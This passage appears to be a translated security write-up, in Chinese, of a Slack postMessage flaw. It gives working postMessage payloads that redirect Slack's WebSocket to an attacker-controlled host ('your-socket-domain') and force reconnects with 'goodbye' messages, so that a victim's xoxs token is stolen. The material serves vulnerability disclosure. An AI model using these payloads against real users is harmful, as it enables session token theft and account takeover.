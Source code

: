 这段代码会将token导出到本地，然后我准备使用命令控制台来向窗口发送信息，并尝试能否连接我的socket：

```
window.postMessage(`{`"origin_window_type":"incoming_call","message_type":"ms_msg","msg":`{`"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"`}``}`, "*")
```

结果并不尽如人意。因为原始的WebSocket已经建立了连接，当它调用其他事件时，并不会再初始化一次重连（reconnect）。但是当我在查看网站其他的事件处理器时，我发现了一个名叫“goodbye”的方法：

```
goodbye: function(imsg) `{`
    if (!TS.lazyLoadMembersAndBots())
        return;
    TS.info("Got a goodbye message, so disconnecting from the MS");
    TS.ms.disconnect()
`}`,
```

原来，Slack将一个名叫“fast_reconnects_enabled”的参数设置为了“ture”，而正是这个参数才使得我能够执行reconnect_url事件，然后再通过goodbye事件完成重连。

<br>

**信息整合**

现在，我们来整理一下思路：

1.我们开启了一个本地的web-socket，它只有一个功能，就是监听、拦截，并将获取到的token参数保存到我们的服务器中。

2.当目标用户点击了我们恶意页面中的链接之后，我们会开启一个新的窗口，然后将用户定向到https://slack.com/call/me，最后将针对该窗口的引用保存在变量b之中。

3.我们还运行了一个小脚本来尝试通过我们自己的WebSocket来获取token。

4.接下来，通过下面这个postMessage来重置socket-URL：

```
b.postMessage(`{`"origin_window_type":"incoming_call","message_type":"ms_msg","msg":`{`"reply_to":false,"type":"reconnect_url","url":"ws://your-socket-domain:9001/websocket/AAA"`}``}`, "*")
```

5.每两秒钟我们还要调用一次goodbye方法来确保socket连接能够被中断：

```
b.postMessage(`{`"origin_window_type":"incoming_call","message_type":"ms_msg","msg":`{`"reply_to":false,"type":"goodbye"`}``}`, "*")
```

6.当slack.com的窗口连接到了我们的socket之后，我们就可以导出目标用户的token，然后再使用这个xoxs-token来从Slack API的auth.test节点收集数据。

至此，我们已经成功窃取到了目标用户的token。

[![](https://p2.ssl.qhimg.com/t01735925b3619fbf0e.png)](https://p2.ssl.qhimg.com/t01735925b3619fbf0e.png)



**演示视频**

我还专门制作了一个短视频来演示整个攻击过程：****


